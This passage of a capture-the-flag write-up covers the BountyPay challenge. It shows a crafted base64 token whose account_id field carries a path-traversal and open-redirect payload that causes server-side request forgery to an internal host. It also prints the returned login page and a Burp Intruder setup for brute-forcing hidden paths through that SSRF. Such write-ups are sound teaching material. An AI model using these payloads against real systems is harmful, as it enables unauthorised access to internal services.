 At this point we could request any path on the api.bountypay.h1ctf.com domain...and what we have on that? Ah sure, the possible SSRF! 

So combining all the previous ideas I obtained the following JWT Token:
- `eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSy8uLi8uLi8uLi9yZWRpcmVjdD91cmw9aHR0cHM6Ly9zb2Z0d2FyZS5ib3VudHlwYXkuaDFjdGYuY29tLyMvIiwiaGFzaCI6ImRlMjM1YmZmZDIzZGY2OTk1YWQ0ZTA5MzBiYWFjMWEyIn0=`

That is:

- 
`{"account_id":"F8gHiqSdpK/../../../redirect?url=https://software.bountypay.h1ctf.com/#/","hash":"de235bffd23df6995ad4e0930baac1a2"}
`

Indeed, this seems to be successful as it returns what it seems a login form:
```
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/..\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/#\/\/statements?month=03&year=2020",
    "data": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage<\/h1>\n            <form method=\"post\" action=\"\/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login<\/div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:<\/label><\/div>\n                        <div><input name=\"username\" class=\"form-control\"><\/div>\n                        <div style=\"margin-top:7px\"><label>Password:<\/label><\/div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"><\/div>\n                    <\/div>\n                <\/div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            <\/form>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"
}
```

However...we don't have any new credentials to use!

### BurpSuite-Fu
So at this point I tried to find if there are some hidden directories or files only accessible through SSRF (as the ffuf done before resulted in an error as my IP was not in whitelist).

I did this through the use of some slightly unknown Burp Intruder options.

My basic setup was the following:
{F854063}

The wordlist I used is the *common.txt* from SecLists (https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt).

Then the trick I used was to set 3 *Payload Processing* steps:
1. Set a "prefix" as `{"account_id":"F8gHiqSdpK/../../../redirect?url=https://software.bountypay.h1ctf.com/`
2. Set a "suffix" as `/#/","hash":"de235bffd23df6995ad4e0930baac1a2"}`
3. Apply Base64 Encoding to all of this
